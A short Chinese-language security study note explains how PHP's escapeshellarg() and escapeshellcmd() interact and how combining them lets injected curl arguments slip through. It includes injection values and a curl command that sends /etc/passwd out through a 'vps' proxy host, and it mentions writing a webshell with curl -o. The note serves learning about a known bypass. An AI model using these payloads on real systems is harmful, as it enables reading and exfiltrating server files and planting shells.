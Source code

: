 ```yaml
---
title: escapeshellarg&escapeshellcmd&curl
date: 2018-3-6 8:50:30
tags: Web安全
toc: true
---
```

parse_url()  处理url 各个部分为关联数组
strtolower()  转小写

### escapeshellarg() 
将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号
例如

		echo escapeshellarg("127.0.0.1' -T /etc/passwd");
		结果为 '127.0.0.1'\'' -T /etc/passwd' 
		先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用 

### escapeshellcmd() 
对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 
反斜线（\）会在以下字符之前插入： 
```
&#;`|*?~<>^()[]{}$\, \x0A 和 \xFF。
 ' 和 " 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。
```
例子

		$url = "127.0.0.1' -T /etc/passwd";
		escapeshellarg($url);
		escapeshellcmd($url);
		echo $url;
		运行后url为127.0.0.1\ -T /etc/passwd'
		escapeshellcmd('127.0.0.1'\'' -T /etc/passwd')对\转译后面多个',转义',即'172.17.0.2'\\'' -T /etc/passwd\'

curl -T /etc/passwd' url 时有‘ 不会成功读取passwd，so
mou表格姿势

		curl 'http://baidu.com/'\'' -F file=@/etc/passwd -x vps:9999'
		\是已被转义的 最后的' 对代理没影响 对curl版本有要求

#### curl

		curl -F 可以提交表单或文件
		curl -o 指定文件名写文件 可写shell
		curl -T 向服务器put文件  curl -T flag.php -x vps:port
